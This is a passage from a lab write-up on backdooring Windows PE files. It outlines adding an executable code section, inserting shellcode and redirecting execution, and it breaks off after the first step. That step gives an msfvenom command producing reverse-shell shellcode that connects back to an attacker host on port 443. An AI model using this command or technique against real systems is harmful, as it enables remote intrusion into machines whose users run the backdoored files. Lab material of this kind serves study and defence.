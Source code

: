 # Backdooring PE Files with Shellcode

The purpose of this lab is to learn the Portable Executable \(PE\) backdooring technique by adding a new readable/writable/executable code section with our malicious shellcode to any portable executable file.

High level process of this technique:

* Add a new RWX PE section, big enough to hold our shellcode, to any .exe file 
* Generate shellcode
* Add shellcode to the newly created PE section
* Redirect execution flow of the .exe file being backdoored to the shellcode
* Redirect execution flow back to the legitimate .exe instructions

The last two steps are a bit more complicated and will have more details below.

## Groundwork

### Generate Shellcode

First of, let's generate the shellcode so we know how many bytes of space we will need in the new PE section:

```csharp
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 | hexdump -C
```

![](../../.gitbook/assets/image%20%287%29.png)
